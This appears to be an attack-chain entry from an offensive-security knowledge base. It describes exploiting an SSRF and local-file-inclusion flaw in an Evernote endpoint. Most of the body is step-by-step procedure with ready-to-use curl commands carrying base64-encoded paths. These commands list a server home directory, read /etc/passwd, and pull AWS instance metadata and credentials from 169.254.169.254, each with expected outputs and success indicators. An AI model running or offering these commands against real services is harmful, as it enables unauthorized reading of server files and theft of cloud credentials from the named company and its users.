

---
tags:
  - ssrf
  - lfi
  - aws-metadata
  - file-leak
  - evernote
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - AWS
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-LFI-for-Local-Directory-Listing]]'
  - '[[procedures/Exploit-LFI-for-Sensitive-File-Read]]'
  - '[[procedures/Exploit-SSRF-for-AWS-Metadata-Access]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
  - '[[Cloud Instance Metadata API]]'
updated_at: '2025-12-14T17:26:30.021Z'
description: >-
  A multi-stage attack exploiting SSRF and LFI in the Evernote endpoint to read
  arbitrary local files and access internal AWS metadata via base64-encoded
  URIs.
skill_level: intermediate
impact_level: high
id: 21ee7749-6ed1-4786-ba82-0a4d5ca6c836
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
  - '[[Cloud Instance Metadata API]]'
---
# Evernote SSRF and LFI Exploitation to Leak Local Files and AWS Metadata

Multi-stage attack chain demonstrating exploitation of a Server-Side Request Forgery (SSRF) and Local File Inclusion (LFI) vulnerability in the Evernote endpoint https://www.evernote.com/ro/<base64-encoded-path>/-<timestamp>.js. The endpoint decodes base64 input without validation, allowing attackers to fetch local files via file:// URIs or internal resources via http:// URIs, leading to leakage of sensitive server files and AWS instance metadata.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or [[commands/curl-http-request]]

### Target Environment

- Web platform with access to https://www.evernote.com
- AWS-hosted services (EC2 instances)
- No authentication required; public endpoint

### Initial Access Requirements

- Internet access to the Evernote domain
- Ability to craft base64-encoded URIs
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Leak Local Directory Contents via LFI
procedure: [[procedures/Exploit-LFI-for-Local-Directory-Listing]]

**Objective**: Use a base64-encoded file:// URI to access and leak the contents of a local directory on the web server, such as /home/abenavides/.

**Instructions**: Encode the target path as base64 and append #.js to mimic a JavaScript file. Use [[commands/curl-lfi-directory-leak]] to send the request:

```bash
curl "https://www.evernote.com/ro/ZmlsZTovLy9ob21lL2FiZW5hdmlkZXMvIy5qcw==/-1430533899.js"
```

The timestamp (-1430533899) may need adjustment based on current time, but it is often static or ignorable.

**Expected Output**: The response will contain the directory listing or file contents rendered as JavaScript, revealing file names and structure.

**Success Indicators**:
- Directory files listed in the response body
- No 404 or validation error

### Step 2: Read Sensitive Local File via LFI
procedure: [[procedures/Exploit-LFI-for-Sensitive-File-Read]]

**Objective**: Target a specific sensitive file like /etc/passwd to extract user account information from the server filesystem.

**Instructions**: Base64-encode the file path (file:///etc/passwd#.js) and access via the endpoint using [[commands/curl-lfi-passwd-leak]]:

```bash
curl "https://www.evernote.com/ro/ZmlsZTovLy9ldGMvcGFzc3dkIy5qcw==/-1430533899.js"
```

**Expected Output**: The full contents of /etc/passwd displayed in the response, including usernames, UIDs, and home directories.

**Success Indicators**:
- User account entries visible (e.g., root:x:0:0:root:/root:/bin/bash)
- File content leaked without errors

### Step 3: Access Internal AWS Metadata via SSRF
procedure: [[procedures/Exploit-SSRF-for-AWS-Metadata-Access]]

**Objective**: Pivot to SSRF by using a base64-encoded http:// URI to fetch internal AWS metadata from 169.254.169.254, leaking instance credentials and configuration.

**Instructions**: Encode the internal metadata endpoint (http://169.254.169.254/#.js) and request it with [[commands/curl-ssrf-aws-metadata]]:

```bash
curl "https://www.evernote.com/ro/aHR0cDovLzE2OS4yNTQuMTY5LjI1NC8jLmpz/-1430533899.js"
```

This triggers the server to make a request to the AWS metadata service on behalf of the attacker.

**Expected Output**: JSON or text response containing AWS instance details, such as IAM roles, security groups, and temporary credentials.

**Success Indicators**:
- Metadata fields like instance-id, local-ipv4, or IAM token retrieved
- Internal network access confirmed

## Attack Chain Summary

### Key Achievements

1. Successful LFI to enumerate and read local server files, exposing filesystem structure and sensitive data like /etc/passwd.
2. SSRF exploitation to access internal AWS metadata, potentially leading to further compromise via stolen credentials.
3. Critical severity impact with arbitrary file read and internal network reconnaissance from a public endpoint.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[File and Directory Discovery]] File and Directory Discovery
- [[Cloud Instance Metadata API]] Cloud Instance Metadata Abuse

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Discovery]] Discovery
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
